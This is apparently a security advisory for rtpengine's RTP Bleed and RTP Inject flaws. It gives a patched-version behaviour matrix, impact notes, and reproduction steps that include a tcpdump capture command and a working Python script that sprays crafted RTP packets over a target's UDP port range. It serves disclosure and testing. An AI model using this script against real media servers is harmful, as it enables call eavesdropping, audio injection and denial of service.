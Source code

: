 **Patched version behavior matrix for SDES-SRTP, with and without `recrypt`:**

|                        | Delayed       | Heuristic              | No-learning         | Immediate       |
|------------------------|---------------|-------------------------|---------------------|------------------|
| **Without** `recrypt`  | Inject, Bleed | Inject, <5 packets Bleed | Inject only       | Inject, Bleed    |
| **With** `recrypt`     | No Inject or Bleed | No Inject or Bleed  | No Inject or Bleed | No Inject or Bleed |

There is the special case of DTLS-SRTP, typically used for WebRTC environments, which was found vulnerable to RTP Bleed but not RTP Inject. This was due to the logic applied in this case, where learning mode occurred before the RTP packets were properly validated. This has also received a security fix.

## Impact

In the case of plaintext RTP, this vulnerability allows attackers to perform RTP Inject as well as RTP Bleed. RTP Inject affects the integrity of the media while RTP Bleed affects the confidentiality of calls. 

In cases where rtpengine is relaying plaintext RTP as well as when it relays SRTP (in vulnerable versions), the vulnerabilities will cause Denial of Service because the RTP packets will be sent to the attacker instead of the legitimate recipient.

## How to reproduce the issue

To reproduce this issue in a reliable manner, a security tester needs three different parties each with their own IP address:

1. Vulnerable rtpengine server
2. An attacker node
3. A victim user node

Steps:

1. Run `tcpdump` on the attacker node to monitor for incoming packets from the target:

    ```bash
    tcpdump -iany -w /tmp/rtpbleed.pcap src host <target_ip> and not icmp
    ```

2. Save the following Python script as `sprayrtp.py`:

    ```python
    import socket, argparse

    parser = argparse.ArgumentParser(description="Spray simple RTP packets over a port range")
    parser.add_argument("target", help="Target IP address")
    parser.add_argument("start_port", type=int, help="First UDP port to spray")
    parser.add_argument("end_port",   type=int, help="Last UDP port to spray")
    args = parser.parse_args()

    rtppacket=[0x80, 0x0, 0xee, 0x3c, 0x4, 0x42, 0xa2, 0xc1, 0xef, 0xa, 0x7, 0xde]
    rtppacket+=[0x0 for _ in range(160)] 

    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    while True:
        for port in range(args.start_port, args.end_port + 1):
            sock.sendto(bytes(rtppacket), (args.target, port))
    ```
